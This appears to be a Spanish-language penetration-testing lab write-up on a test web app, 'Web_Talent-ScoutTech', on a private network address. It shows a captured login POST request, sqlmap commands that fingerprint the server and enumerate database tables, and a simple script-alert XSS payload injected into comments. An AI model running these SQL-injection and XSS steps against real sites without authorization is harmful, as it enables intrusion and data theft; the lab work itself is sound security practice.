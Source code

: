 # **Pentesting de la Web Web_Talent-ScoutTech**

# SQLi

Se ha capturado una solisitud POST de envio de un usuario inventado con ZapProxy.
Solicitud POST:
![1ff7cf3856016747d16c29928dcc31f8.png](/img/1ff7cf3856016747d16c29928dcc31f8.png)
```bash
POST /insert_player.php HTTP/1.1
Host: 192.168.1.205:8080
Proxy-Connection: keep-alive
Content-Length: 28
Cache-Control: max-age=0
Origin: http://192.168.1.205:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en
Referer: http://192.168.1.205:8080/insert_player.php

username=admin&password=1234
```

<br>

## Detalles de la maquina
utilizando sqlmap se puede sacar informacion util como tipo y versiones de los utilizados: `sqlmap -r login_request.txt --batch --dbs`

- Sistema operativo: Linux Debian.
- Servidor web: Apache 2.4.62.
- PHP: 8.3.15.
- Base de datos: SQLite.

<br>

## Base de Datos

Utilizando sqlmap, se puede llegar a sacar los nombres de las tablas, en este caso se a utilizado el siguiente comando: `sqlmap -r login_request.txt --common-tables --batch`

- users
- comments
- players

<br>

---
---
---
---

<br>

# XSS

La pagina web es vulnerable a XSS, en los comentarios se puede inyectar codigo malicioso.

Se a inyectado un codigo de prueba: `<script>alert('XSS detectado');</script>`

![41ea2774a6f97f5ef5b1b41b44b853d9.png](/img/41ea2774a6f97f5ef5b1b41b44b853d9.png)
